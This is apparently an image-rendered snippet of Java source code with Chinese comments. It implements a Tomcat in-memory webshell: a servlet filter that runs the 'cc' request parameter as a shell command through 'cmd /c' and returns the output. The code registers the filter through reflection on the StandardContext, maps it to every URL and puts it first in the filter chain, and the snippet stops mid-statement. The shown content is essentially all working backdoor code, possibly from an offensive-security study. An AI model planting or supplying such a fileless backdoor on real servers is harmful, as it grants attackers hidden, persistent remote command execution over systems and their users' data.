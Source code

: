 ```auto
    Filter filter=new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {

        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest req = (HttpServletRequest) servletRequest;
            if (req.getParameter("cc") != null){
                byte[] bytes = new byte[1024];
                InputStream in = Runtime.getRuntime().exec("cmd /c"+req.getParameter("cc")).getInputStream();

                ByteArrayOutputStream baos = new ByteArrayOutputStream();
                byte[] b = new byte[1024];
                int a = -1;

                while ((a = in.read(b)) != -1) {
                    baos.write(b, 0, a);
                }
                servletResponse.getWriter().write(new String(baos.toByteArray()));
                return;
            }
            filterChain.doFilter(servletRequest,servletResponse);
        }

        @Override
        public void destroy() {

        }
    };

    //封装filter
    String filtername="novic4";
    FilterDef filterDef=new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(filtername);
    filterDef.setFilterClass(filter.getClass().getName());

    //将filterdef添加到filterdefs中
    standardContext.addFilterDef(filterDef);

    //将filterdef添加到filterconfig中
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

    //建立对应得filterMap
    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(filtername);
    //这里用到的 javax.servlet.DispatcherType类是servlet 3 以后引入，而 Tomcat 7以上才支持 Servlet 3
    filterMap.setDispatcher(DispatcherType.REQUEST.name());

    //插入filterMaps，将其插到首位
    standardContext.addFilterMapBefore(filterMap);

    //添加到filterconfigs
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
```